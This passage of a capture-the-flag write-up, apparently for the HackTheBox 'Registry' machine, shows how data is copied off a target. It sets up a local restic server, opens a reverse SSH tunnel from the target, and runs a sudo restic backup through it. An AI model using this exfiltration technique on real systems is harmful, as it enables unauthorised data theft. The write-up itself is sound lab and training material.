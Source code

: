 Download restic server from [Github](https://github.com/restic/rest-server/releases)

![Registry](/assets/img/post/hackthebox/registry/14.png)

Unzip and then run the `executable` file

It will start a `server`

Because the target server seems to have a firewall, it cannot actively connect to the external server. So to back up data to the local machine, we will do port forwarding.

```bash
ssh -i id_rsa -R 8000:127.0.0.1:8000 bolt@10.10.10.159
```

`Backup` with the `www-data` user’s authority.

Create a `password` file named `pass` containing the password of `restic server` and then this

```bash
sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000 --password-file pass
```
![Registry](/assets/img/post/hackthebox/registry/15.png)
